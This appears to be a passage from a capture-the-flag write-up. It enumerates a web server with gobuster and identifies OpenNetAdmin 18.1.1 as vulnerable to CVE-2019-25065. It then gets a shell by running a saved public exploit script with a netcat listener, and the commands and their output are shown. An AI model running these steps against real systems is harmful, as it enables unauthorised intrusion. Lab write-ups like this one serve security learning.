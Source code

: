 - Notice that `http://{IP}/artwork/images` can be accessed and list a number of JPGs
- Maybe we can upload some malicious image or PHP script.
- However, diving into the site didn't provide no attack vector
- In practice we cannot do anything
- Let's enumerate the other site

```bash
$ gobuster dir -u http://{IP}/music/ -w /usr/share/wordlists/dirb/common.txt

/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 316]
/img                  (Status: 301) [Size: 316]
/index.html           (Status: 200) [Size: 12554]
/js                   (Status: 301) [Size: 315]
```

- Nothing special ... Let's dive into the page and see if we can get something
- Clicking on Login we are redirected to `http://{IP}/ona/`
- The title of the page is *OpenNetAdmin*

---

## GETTING A REVERSE SHELL

> **OpenNetAdmin** provides a database managed inventory of your IP network. 
> Each subnet, host, and IP can be tracked via a centralized AJAX enabled web 
> interface that can help reduce tracking errors. A full CLI interface is 
> available as well to use for scripting and bulk work. We hope to provide a 
> useful Network Management application for managing your IP subnets, hosts and much more.

- We can also see that our OpenNetAdmin is version *v18.1.1*
- We can search for CVEs or exploit
- We can easily find the CVE [CVE-2019-25065](https://nvd.nist.gov/vuln/detail/CVE-2019-25065)

> A vulnerability was found in OpenNetAdmin 18.1.1. It has been rated as critical. 
> Affected by this issue is some unknown functionality. The manipulation leads 
> to privilege escalation. The attack may be launched remotely. The exploit has 
> been disclosed to the public and may be used.

- Moreover we can also find a [OpenNetAdmin 18.1.1 - Remote Code Execution Exploit](https://0day.today/exploit/33544)
- Let's save the shell exploit in a file named `ona-exploit.sh`
- Then setup a netcat listener
- Finally, run

```bash
$ chmod +x ona-exploit.sh
$ ./ona-exploit.sh http://{IP}/ona/
> ls
config
config_dnld.php
dcm.php
images
include
index.php
local
login.php
logout.php
modules
plugins
winc
```
